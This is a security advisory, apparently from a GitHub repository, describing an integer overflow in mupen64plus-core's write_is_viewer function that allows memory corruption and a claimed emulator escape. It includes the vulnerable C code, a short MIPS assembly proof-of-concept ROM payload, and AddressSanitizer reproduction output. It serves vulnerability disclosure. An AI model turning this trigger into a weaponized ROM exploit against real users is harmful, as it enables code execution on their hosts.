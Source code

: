 ## Title: Integer Overflow and Virtual Machine Escape in mupen64plus <= 2.6.0

**BUG_Author:** Li Gangyang, USTC/TTCN


**Affected Version:** mupen64plus ≤ 2.6.0

**Vendor:** [mupen64plus emulator](https://mupen64plus.org/)

**Software:** [mupen64plus-core](https://github.com/mupen64plus/mupen64plus-core/)

**Vulnerability Files:**
    - `src/device/cart/is_viewer.c#L59`

**Vulnerability Description:**  Mupen64Plus is a cross-platform, plugin-based N64 emulator that can accurately run many games. It includes four MIPS R4300 CPU emulators, a dynamic recompilation engine that supports 32-bit x86 and 64-bit amd64 systems, and plugins for audio, graphics rendering, signal co-processors, and input.

The Mupen64Plus emulator has an integer overflow vulnerability in its write_is_viewer function. An attacker can exploit this vulnerability by injecting malicious code into a game's ROM package, allowing them to escape the emulator and achieve arbitrary code execution on the host machine.


#### Vulnerability Analysis

Both `is_viewer->buffer_pos` and `word` are variables of type uint32_t, so their addition may result in integer overflow, causing the result to become smaller.

```c
// https://github.com/mupen64plus/mupen64plus-core/blob/2.6.0/src/device/cart/is_viewer.c#L59
void write_is_viewer(void* opaque, uint32_t address, uint32_t value, uint32_t mask)
{
    struct is_viewer* is_viewer = (struct is_viewer*)opaque;
    address &= IS_ADDR_MASK;
    uint32_t word = value & mask;
    if (address == 0x14)
    {
        if (word > 0)
        {
            /* make sure we don't overflow the buffer */
            if (is_viewer->buffer_pos + word > IS_BUFFER_SIZE)
            {
                /* reset buffer */
                memset(is_viewer->output_buffer, 0, IS_BUFFER_SIZE);
                is_viewer->buffer_pos = 0;
                DebugMessage(M64MSG_WARNING, "IS64: prevented buffer overflow, cleared buffer");
                return;
            }

            memcpy(&is_viewer->output_buffer[is_viewer->buffer_pos], &is_viewer->data[0x20], word);
            ...
        }
        ...
    }
    ...
}
```

![](./asserts/write_is_viewer.png)

- poc.asm

```
.section .shellcode,"awx"
.global _start
_start:
li    $a0, 0x93ff0014
li    $a1, 0xe00
sw    $a1, 0($a0)
li    $a1, 0xfffffffc
sw    $a1, 0($a0)
```


- reproduction

```
$ docker run -itv $(pwd):/mupen64plus --rm ubuntu:22.04 
root@c563c255a375:/# apt-get update
root@c563c255a375:/# apt-get install -y libasan6 libsdl2-2.0-0 libgl1 libglu1-mesa libvulkan1 libbinutils
root@c563c255a375:/# cd /mupen64plus/ 
root@c563c255a375:/mupen64plus# ./mupen64plus ./maliao.z64
...
==1484==ERROR: AddressSanitizer: memcpy-param-overlap: memory ranges [0x7f76e91c9258,0x7f76e91ca258) and [0x7f76e91c8278, 0x7f76e91c9278) overlap
    #0 0x7f76ed7c41ed in __interceptor_memcpy ../../../../src/libsanitizer/sanitizer_common/sanitizer_common_interceptors.inc:827
    #1 0x7f76e7b99834 in write_is_viewer ../../src/device/cart/is_viewer.c:68
    #2 0x7f76e7c349e6 in mem_write32 ../../src/device/memory/memory.h:87
    #3 0x7f76e7c35f9c in r4300_write_aligned_word ../../src/device/r4300/r4300_core.c:372
    #4 0x7f76e7c9ec4c in dynarec_write_aligned_word ../../src/device/r4300/recomp.c:961
    #5 0x7f76c65b5082  (<unknown module>)

0x7f76e91c9258 is located 21311320 bytes inside of global variable 'g_dev' defined in '../../src/main/main.c:114:15' (0x7f76e7d76300) of size 21318904
0x7f76e91c8278 is located 21307256 bytes inside of global variable 'g_dev' defined in '../../src/main/main.c:114:15' (0x7f76e7d76300) of size 21318904
SUMMARY: AddressSanitizer: memcpy-param-overlap ../../../../src/libsanitizer/sanitizer_common/sanitizer_common_interceptors.inc:827 in __interceptor_memcpy
==1484==ABORTING
```

![](./asserts/write_is_viewer.asan.png)